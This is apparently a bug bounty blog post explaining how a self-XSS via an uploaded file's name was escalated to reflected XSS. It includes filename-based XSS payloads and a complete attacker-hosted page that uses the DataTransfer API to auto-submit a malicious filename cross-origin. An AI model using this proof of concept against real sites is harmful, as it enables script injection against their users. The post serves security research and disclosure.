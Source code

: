 ```yaml
---
layout: post
title:  "Self-XSS to rXSS via Uploaded File Name"
date:   2021-02-09 12:00:00 -0700
categories: xss selfxss upload bugbounty
---
```


# Self-XSS to rXSS via Uploaded FileName

The other day I found a self XSS that could be escalated to a reflected XSS. The method for doing so used a Javascript object I'd never heard of before and I didn't find any examples specifically referencing bug bounty so I thought I'd share in case it helps anyone in the future.

##  The Self XSS

The upload page had code that looked like this:

```html
<html>
  <body>
    <form enctype="multipart/form-data" action="upload" method="POST">
      Upload file<input name="theFile" type="file">
      <input type="submit" value="Upload file now">
    </form>
  </body>
</html>
```

And upon POSTing the form, the name of the uploaded file was displayed on the page. So if you uploaded `RCE_Please.php` the resulting page displayed "Thanks for uploading RCE_Please.php".

The self XSS was easy - upload a file called `<script>alert(document.domain)</script>`.

## Escalating to Reflected XSS

**First attempt** - see if the reflected parameter can come from a GET request. No luck.

**Second attempt** - Use an `XMLHTTPRequest` to POST the required payload from an attacker controlled page. No luck because of CORS.

**Third attempt** - Use Javascript to set the contents of the form and the name of the uploaded file. This wasn't as easy as I thought it would be because there are browser level protections on modifying the input's `file` array. These protections ensure that attackers can't upload arbitrary files from a victim's computer. You can't even set defaults in HTML! I guess this is an okay feature to prevent browser user LFI attacks. After some Googling I found this [Stack Overflow answer](https://stackoverflow.com/questions/47119426/how-to-set-file-objects-and-length-property-at-filelist-object-where-the-files-a/47172409) which introduced me to the [DataTransfer Object](https://developer.mozilla.org/en-US/docs/Web/API/DataTransfer).

Without further ado, this is the malicious HTML/JS that can be hosted by an attacker so that if a victim navigates to it, the rXSS will fire on the target domain.

```html

<html>
  <body>
    <form id="theForm" enctype="multipart/form-data" action="https://target.domain/upload" method="POST">
      <input id="theInput" name="theFile" type="file">
      <input type="submit" value="Upload file now">
    </form>
    <script>
      setTimeout(() => {
        const f = document.getElementById("theForm");
        const i = document.getElementById("theInput");
        const dt = new DataTransfer()
        const files = [
          new File(['content'], 'maliciousfilename.txt<img src=x onerror=alert(document.domain)>')
        ];

        files.forEach(f => dt.items.add(f));
        i.files = dt.files;

        f.submit();
      }, 1000);
    </script>
  </body>
  </html>

```

The `setTimeout` is just there so the triager can see the attacker's page before being redirected.

## Conclusion

This was new to me, so I hope it was new to you and comes in handy one day. Happy Hunting friends!
